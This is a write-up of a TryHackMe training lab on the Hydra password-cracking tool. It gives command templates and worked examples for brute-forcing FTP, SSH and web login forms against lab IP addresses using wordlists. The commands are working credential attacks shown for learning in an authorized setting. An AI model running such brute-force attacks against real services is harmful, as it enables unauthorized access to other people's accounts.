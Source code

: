 
# 🐉 Hydra – Credential Brute-Forcing Lab

## 📄 Overview
This lab from TryHackMe demonstrates the use of **Hydra**, a tool for brute-forcing credentials on various authentication services such as **SSH, FTP, SNMP, and web applications**.  
It was completed in a controlled, authorized environment as part of my hands-on cybersecurity training.

---

## 📌 Objective
- Learn how to perform credential brute-forcing on multiple protocols.
- Understand Hydra syntax and its key options.
- Practice attacking SSH, FTP, and POST-based web forms.
- Interpret failed login responses for successful automation.

---

## 🛠 Tools Used
- **Hydra** – Credential brute-force tool  
- **Wordlists** – For testing possible passwords  
- **Kali Linux** – Attack platform  

---

## 🔍 Commands & Usage

### FTP
```bash
hydra -l user -P <filename> ftp://<IP_ADDRESS>


### SSH

```bash
hydra -l <username> -P <wordlist> <IP_ADDRESS> -t 4 ssh
```

**Options:**

* `-l` → Single username
* `-P` → Password list
* `-t` → Number of threads

---

## 🌐 POST Web Form

**Syntax:**

```bash
sudo hydra <username> -P <wordlist> <IP_ADDRESS> \
http-post-form "/<path>:username=^USER^&password=^PASS^:<invalid_response>" -v
```

**Parameters:**

* `http-post-form` → Indicates POST request type
* `<path>` → Login page URL path
* `<login_credentials>` → Fields for username and password
* `<invalid_response>` → Response text when login fails
* `-v` → Verbose mode

---

**1. SSH Brute Force**

```bash
hydra -l admin -P passwords.txt 10.10.10.5 -t 4 ssh
```

**2. FTP Brute Force**

```bash
hydra -l testuser -P rockyou.txt ftp://10.10.10.8
```

**3. Web Form Brute Force**

```bash
hydra -l admin -P wordlist.txt 10.10.10.6 \
http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -v
```

---

## 📚 What I Learned

* How to configure and execute Hydra attacks on multiple services.
* The importance of selecting efficient **wordlists**.
* How to identify **failure messages** for web form brute-forcing.
* Balancing speed and detection with the `-t` option.
* Reinforcing the principle of **ethical hacking**: only perform testing in authorized environments.

---



